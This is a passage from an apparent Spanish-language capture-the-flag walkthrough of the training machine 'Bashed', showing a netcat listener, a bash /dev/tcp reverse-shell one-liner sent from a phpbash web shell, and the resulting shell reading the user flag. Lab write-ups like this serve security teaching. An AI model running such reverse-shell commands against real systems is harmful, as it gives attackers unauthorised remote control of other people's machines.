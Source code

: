 <figure><img src="../../.gitbook/assets/imagen (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, nos otorgaremos una Reverse Shell para tener una consola más interactiva. Para ello, nos pondremos en escucha para recibir la conexión.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde la herramienta de `phpbash` enviaremos la Reverse Shell hacía nuestro equipo atacante.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.16.5/443 0>%261'
```

Verificaremos que hemos logrado obtener acceso al equipo y podemos visualizar la flag de user.tx&#x74;**.**

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.68] 54870
bash: cannot set terminal process group (839): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/var/www/html/dev$ ls -l /home/
total 8
drwxr-xr-x 4 arrexel       arrexel       4096 Jun  2  2022 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec  4  2017 scriptmanager
www-data@bashed:/var/www/html/dev$ cat /home/arrexel/user.txt
903ab6952c1d********************
```

## Privilege Escalation
